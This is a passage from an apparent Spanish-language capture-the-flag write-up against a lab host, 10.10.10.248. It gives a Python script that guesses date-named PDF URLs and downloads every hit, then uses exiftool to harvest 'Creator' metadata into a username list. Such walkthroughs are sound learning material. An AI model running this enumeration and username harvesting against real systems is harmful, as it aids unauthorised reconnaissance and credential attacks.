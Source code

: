 Si nos desplazamos hacia abajo, también podemos encontrar un servicio de suscripción y dos botones de descarga. Los botones de descarga enlazan a las páginas:
- http://10.10.10.248/documents/2020-01-01-upload.pdf
- http://10.10.10.248/documents/2020-12-15-upload.pdf

Que son dos archivos PDF que contienen información poco interesante. Algo que podemos tener en mente es que los únicos caracteres impredecibles son los caracteres de la fecha de carga. Podríamos sospechar que otros archivos podrían haberse subido en otras fechas. Adivinar manualmente puede ser una tarea tediosa, así que haremos un script en Python:

```python
import datetime, requests

# Parameters
baseURL = "http://10.10.10.248/"
start = datetime.datetime(2019,1,1)
stop = datetime.datetime(2022,1,1)

# Create a list of dates between the start and stop date
numdays = (stop - start).days
dates = [start + datetime.timedelta(days=ndays) for ndays in range(numdays)]
dates = [date.strftime("%Y-%m-%d") for date in dates]

# Attempt to download a PDF for each date
for date in dates:
    print(date, end="\r")
    URL = baseURL+"documents/"+date+"-upload.pdf"
    response = requests.get(URL)

    if response.status_code == 200:
        filename = "./"+date+".pdf"
        print("[*] PDF Found! Downloading " + URL + " to " + filename)
        with open(filename, 'wb') as f:
            f.write(response.content)
```

La ejecución del script genera una gran cantidad de archivos PDF identificados. Para cada PDF, hay dos cosas que podemos comprobar: los metadatos y el contenido real del PDF. Podemos extraer metadatos de archivos PDF usando exiftool:

```bash
exiftool 2020-01-01.pdf
exiftool *.pdf | grep "Creator"
```

Podemos crear una lista de nombres de usuario:
```bash
exiftool *.pdf | grep "Creator" | awk -F ":" '{gsub(/ /,""); print $2}' > users.txt
head users.txt
```

Para inspeccionar el contenido, podemos usar abiword:
```bash
abiword --to=txt --to-name=fd://1 2020-01-01.pdf
```
